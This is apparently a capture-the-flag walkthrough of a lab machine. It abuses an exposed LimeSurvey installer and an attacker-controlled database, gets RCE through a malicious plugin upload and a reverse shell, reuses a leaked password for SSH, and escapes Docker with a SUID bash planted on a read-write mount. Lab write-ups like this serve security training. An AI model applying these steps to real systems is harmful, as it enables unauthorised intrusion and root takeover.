





## Enumeration

### Nmap

```bash
sudo nmap -sCV 10.129.234.81
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 28:c7:f1:96:f9:53:64:11:f8:70:55:68:0b:e5:3c:22 (ECDSA)
|_  256 02:43:d2:ba:4e:87:de:77:72:ce:5a:fa:86:5c:0d:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.56 (Debian)
```

Port 80 returns a 403, so directory enumeration comes next.

### Gobuster

```bash
gobuster dir -u http://10.129.234.81/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php
```

```
/server-status        (Status: 403) [Size: 278]
/survey               (Status: 301) [Size: 315] [--> http://10.129.234.81/survey/]
```

The `/survey` endpoint redirects to a **LimeSurvey** installation.

## Foothold — Abusing the LimeSurvey Installer

Navigating to `/survey/` reveals the LimeSurvey installer, still accessible after deployment.



The installer's **Configuration** step (step 4) exposes a database settings form that accepts arbitrary host, user, and password values.



### Setting Up a Remote Database

LimeSurvey is pointed at an attacker-controlled MySQL/MariaDB instance:

```bash
sudo systemctl start mariadb
sudo mysql -u root
```

```sql
CREATE DATABASE limesurvey CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;
CREATE USER 'lime'@'%' IDENTIFIED BY 'lime123';
GRANT ALL PRIVILEGES ON limesurvey.* TO 'lime'@'%';
FLUSH PRIVILEGES;
EXIT;
```

```bash
sudo systemctl restart mariadb
```

Verify the service is listening on all interfaces:

```bash
ss -tlnp | grep 3306
# LISTEN 0  80  0.0.0.0:3306  0.0.0.0:*
```

After completing the installer and pointing it at this database, log in to the LimeSurvey admin panel with the administrator credentials set during installation.



## Privilege Escalation to Admin Shell — Malicious Plugin Upload

Once logged in, the admin dashboard presents several options including survey management, themes, and plugins.


### Attempting Theme Upload

The **Themes** section has an "Upload & install" button, which could allow uploading a malicious theme.



This avenue was attempted but did not yield code execution.

### Plugin Upload — RCE

The **Plugins** page (Configuration → Plugins) also has an "Upload & install" option.



A public LimeSurvey RCE PoC abusing the plugin upload functionality was used. After fixing a few lines in the PoC script, a malicious plugin was uploaded and a reverse shell obtained:

```bash
limesvc@efaa6f5097ed:/var/www/html/survey/upload/plugins/Y1LD1R1M$ ls -la /
total 84
drwxr-xr-x   1 root root 4096 Dec  2  2023 .
drwxr-xr-x   1 root root 4096 Dec  2  2023 ..
-rwxr-xr-x   1 root root    0 Dec  2  2023 .dockerenv
```

This is inside a **Docker container**. Enumerating environment variables leaks credentials:

```bash
LIMESURVEY_PASS=5W5HN4K4GCXf9E
```

## Lateral Movement — SSH with Leaked Credentials

Testing the leaked password against the host via SSH:

```bash
ssh limesvc@10.129.234.81
# Password: 5W5HN4K4GCXf9E
```

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.8.0-1033-aws x86_64)
limesvc@forgotten:~$ whoami
limesvc
```

There is now a shell on the **host machine** as `limesvc`.

## Privilege Escalation — Docker Mount Escape

Running `deepce.sh` inside the container to enumerate escape vectors:

```
[+] Other mounts .............. Yes
/opt/limesurvey /var/www/html/survey rw,relatime - ext4 /dev/root rw,discard,errors=remount-ro
```

The host path `/opt/limesurvey` is mounted into the container at `/var/www/html/survey` with **read-write** access, and the container runs as **root**. This allows planting a SUID binary from inside the container that is accessible from the host.

### Planting a SUID bash

Inside the container (as root):

```bash
cp /bin/bash /var/www/html/survey/bash
chmod +s /var/www/html/survey/bash
```

On the host, confirm the SUID bit is set:

```bash
limesvc@forgotten:~$ ls -la /opt/limesurvey/bash
-rwsr-sr-x  1 root  root  1234376 Apr 23 12:01 bash
```

Execute it with the `-p` flag to preserve the effective UID:

```bash
limesvc@forgotten:~$ /opt/limesurvey/bash -p
bash-5.1# whoami
root
```

**Rooted.**
